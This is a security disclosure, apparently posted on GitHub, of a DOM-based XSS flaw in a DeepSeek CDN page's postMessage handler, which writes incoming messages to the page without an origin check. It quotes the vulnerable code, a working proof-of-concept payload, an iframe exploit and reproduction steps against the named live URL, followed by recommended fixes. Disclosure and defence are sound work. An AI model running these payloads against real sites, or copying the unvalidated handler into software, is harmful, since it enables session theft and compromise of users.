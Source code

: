 ### **DOM-Based XSS Vulnerability Disclosure: DeepSeek.com**

#### **Summary**
During routine analysis, a DOM-based Cross-Site Scripting (XSS) vulnerability was identified on DeepSeek's CDN endpoint: `https://cdn.deepseek.com/usercontent/usercontent.html`. The vulnerability stems from improper handling of `postMessage` events, allowing an attacker to inject malicious scripts into the document context without proper origin validation or input sanitization.

---

#### **Affected URL**
`https://cdn.deepseek.com/usercontent/usercontent.html`

---

#### **Vulnerability Details**
The `postMessage` implementation on the affected endpoint processes messages without verifying their origin or properly sanitizing input. The following code snippet illustrates the root cause of the issue:

```javascript
window.addEventListener("message", (e) => {
    const keys = Object.keys(e.data);
    if (keys.length !== 1) return;
    if (!e.data.__deepseekCodeBlock) return;

    document.open();
    document.write(e.data.__deepseekCodeBlock);
    document.close();

    const style = document.createElement("style");
    style.textContent = "body { margin: 0; }";
    document.head.appendChild(style);
});
```

The function directly writes any `__deepseekCodeBlock` payload into the document using `document.write`, bypassing essential security measures such as:
- **Origin Validation**: No check to ensure the `postMessage` event originates from a trusted source.
- **Input Sanitization**: No filtering or escaping of HTML/JavaScript content in the payload.

---

#### **Proof of Concept (PoC)**

##### **Payload:**
The following `postMessage` payload can exploit the vulnerability to execute arbitrary JavaScript:
```javascript
postMessage(
    { __deepseekCodeBlock: '<script>alert(origin)</script>' },
    "*"
);
```

##### **Exploit Code:**
For easier testing, an iframe-based PoC was created to demonstrate the issue:
```html
<iframe
    width="600px"
    height="600px"
    src="https://cdn.deepseek.com/usercontent/usercontent.html"
    onload="this.contentWindow.postMessage( ({ __deepseekCodeBlock: '<script>alert(origin)</script>'}) ,'*')"
>
</iframe>
```

##### **Impact:**
When this payload is executed:
1. The browser processes the malicious payload.
2. An alert box is displayed showing the `origin`, confirming the ability to inject and execute arbitrary JavaScript.

---

#### **Steps to Reproduce**
1. Open `https://cdn.deepseek.com/usercontent/usercontent.html` in your browser.
2. Open the browser console and execute:
   ```javascript
   window.postMessage(
       { __deepseekCodeBlock: '<script>alert(origin)</script>' },
       "*"
   );
   ```
3. Alternatively, save and load the provided iframe-based exploit code in a browser.

---

#### Recommendations
1. **Validate Message Origin**: Ensure that the `postMessage` event's `origin` matches `https://cdn.deepseek.com`:
   ```javascript
   window.addEventListener("message", (e) => {
       if (e.origin !== "https://cdn.deepseek.com") return;

       // Handle the message securely
       const data = e.data;

       // Example: Sanitize and insert content
       if (data && data.__deepseekCodeBlock) {
           const sanitizedContent = DOMPurify.sanitize(data.__deepseekCodeBlock);
           const codeBlock = document.createElement("pre");
           codeBlock.textContent = sanitizedContent;
           document.body.appendChild(codeBlock);
       }
   });
   ```

2. **Sanitize User Input**: Use a library like **DOMPurify** to sanitize the HTML content before inserting it into the DOM. This helps prevent XSS attacks:
   ```javascript
   const sanitizedContent = DOMPurify.sanitize(e.data.__deepseekCodeBlock);
   ```

3. **Avoid `document.write`**: Replace `document.write` with modern DOM manipulation methods:
   ```javascript
   const codeBlock = document.createElement("pre");
   codeBlock.textContent = sanitizedContent;
   document.body.appendChild(codeBlock);
   ```

---

#### **Timeline**
- **Date of Discovery**: January 31, 2025
- **Reported To DeepSeek**: [Pending Evalution]
- **Acknowledgment**: [N/A]
- **Patch Status**: [N/A]

---

#### **Impact Assessment**
This vulnerability allows attackers to execute arbitrary JavaScript in the context of `cdn.deepseek.com`. Potential impacts include:
- Theft of sensitive user data (e.g., cookies or session tokens).
- Defacement or injection of malicious content.
- Further exploitation of users accessing the compromised page.

